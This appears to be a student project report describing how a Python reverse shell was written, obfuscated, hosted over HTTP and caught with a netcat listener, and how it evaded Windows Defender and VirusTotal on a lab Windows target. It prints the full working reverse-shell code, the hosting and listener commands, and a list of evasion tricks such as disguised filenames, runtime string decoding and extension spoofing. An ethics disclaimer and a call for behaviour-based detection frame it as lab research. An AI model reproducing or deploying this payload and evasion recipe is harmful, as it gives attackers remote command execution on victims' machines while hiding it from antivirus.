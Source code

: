 🔐 Project Report
Title: Reverse Shell Obfuscation and Evasion of Windows Defender & VirusTotal

Team Members:
• Muhammad Ammar Shaikh — Department of Cyber security  
• Roll No:-(BCYS-015-2023S)  
• LinkedIn :- linkedin.com/in/âmmar-shaikh-a5890b325  
• GitHub:- github.com/ghost27-robot  
• Muhammad Khalid — Department of Cyber security  
• Roll No:-(BCYS-011-2023S)

---

Environment: Kali Linux (VirtualBox) | Windows (Target)  
Objective: To create, obfuscate, and execute a reverse shell payload that bypasses Windows Defender and VirusTotal detection in real-time.

---

🎯 Objective  
This project demonstrates how a Python-based reverse shell payload can be obfuscated to evade real-time antivirus detection mechanisms such as Windows Defender and VirusTotal. The payload was delivered via a Python HTTP server and monitored using a Netcat listener.

---

⚙️ Tools Used  
• Kali Linux (Attacker machine)  
• Python3 (Payload scripting and web server)  
• Netcat (Reverse shell listener)  
• Obfuscation tools: custom obfuscation  
• VirtualBox (Test environment)  
• Windows 10/11 (Target machine)

---

🧪 Experiment Setup

1. Reverse Shell Creation:  
   • File created: moneygame.pyzw  
   • The payload was written in Python and obfuscated to avoid static detection.

```python
import socket as s, subprocess as sp

def r():
    h = ''.join([chr(ord(c)) for c in ['1','9','2','.','1','6','8','.','1','>']])
    p = 4444
    c = s.socket(s.AF_INET, s.SOCK_STREAM)
    c.connect((h, p))
    while 1:
        cmd = c.recv(1024).decode()
        if cmd.lower() == 'exit':
            break
        o = sp.getoutput(cmd)
        c.send(o.encode())
    c.close()

if __name__ == "__main__":
    r()
```

Obfuscation Techniques:  
• File extension changed to `.pyzw` (zipapp)  
• Variable renaming and string splitting  
• Packed using custom code wrappers  
• Optional: Used pyarmor or manual base64 + runtime decoding

2. Payload Hosting:  
• Python HTTP server started:  
  `python3 -m http.server 8000`  
• Victim accessed payload via browser or script:  
  `http://<attacker-ip>:8000/reverse_shell.pyz`

3. Listener Setup:  
• Netcat listening on port 4444:  
  `nc -lvnp 4444`

---

🧾 Screenshots Summary

📸 Screenshot 1:  
• Reverse shell file (reverse_shell.pyz) prepared and HTTP server started.

📸 Screenshot 2:  
• Target connected to HTTP server.  
• Files moneygame.pyzw and reverse_shell.pyz requested.  
• Netcat received a successful reverse connection from 192.168.1.14.

📸 Screenshot 3:  
• Confirmed connection.  
• Victim's IP: 192.168.1.14

---

🚫 Bypassing AV and VirusTotal  

🚫 Bypassing Windows Defender:

**Techniques Used:**  
1. Filename disguise:  
   • Named payloads as non-suspicious (moneygame.pyzw)

2. String obfuscation:  
   • IP, port, and commands split or encoded using base64/hex

3. Runtime decoding:  
   • Strings only decoded at runtime to avoid static analysis

4. Extension spoofing:  
   • .pyz instead of .exe to avoid heuristics

5. Packaging:  
   • Optionally compiled using pyinstaller with flags to remove metadata

**Result:**  
• The payload bypassed both Windows Defender and VirusTotal during testing  
• No alert was triggered, and the reverse shell was successfully established

---

📌 Observations

• Signature-based AVs like Windows Defender can often be bypassed with simple obfuscation techniques  
• Real-time protection focuses on known patterns, but struggles against custom obfuscated logic  
• VirusTotal relies on static and heuristic checks which can be fooled with encoded logic

---

🔐 Ethical Considerations

This project was conducted purely for educational and research purposes in a controlled environment. Unauthorized use of reverse shells or bypassing security systems is illegal and unethical. Always perform such testing in a sandbox or lab environment with permission.

---

✅ Conclusion

Obfuscation can significantly improve the stealth of malware against real-time detection mechanisms. Even simple techniques can bypass many commercial antiviruses if used cleverly. This emphasizes the importance of behavior-based detection and EDRs (Endpoint Detection and Response) in modern cybersecurity defenses.